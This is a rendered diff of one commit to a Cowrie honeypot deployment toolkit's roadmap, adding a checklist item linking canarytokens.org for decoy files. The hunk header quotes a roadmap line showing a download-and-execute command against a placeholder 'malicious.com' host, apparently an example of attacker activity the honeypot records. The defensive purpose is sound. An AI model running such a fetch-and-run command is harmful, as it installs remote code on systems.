

Before and after one commit to reuteras/cowrie-deploy-toolkit, a Markdown page: ROADMAP.md, the part around one of its changes. GitHub-like rendering.

Commit message:
Add link to canarytokens

```diff
--- a/ROADMAP.md
+++ b/ROADMAP.md
@@ -156,6 +156,7 @@ wget http://malicious.com/bot.sh && chmod +x bot.sh && ./bot.sh
 - [ ] Realistic cron jobs in process list
 - [ ] Fake user home directories with files
 - [ ] Web honeypot on port 80/443 (nginx with fake admin panels)
+- [ ] Add files and more from <https://canarytokens.org/nest/>
 
 ### Multiple Honeypot Deployment
 - [ ] Deploy fleet across multiple Hetzner locations
```
Also changed, not shown: other parts of ROADMAP.md (+2 -2 lines).
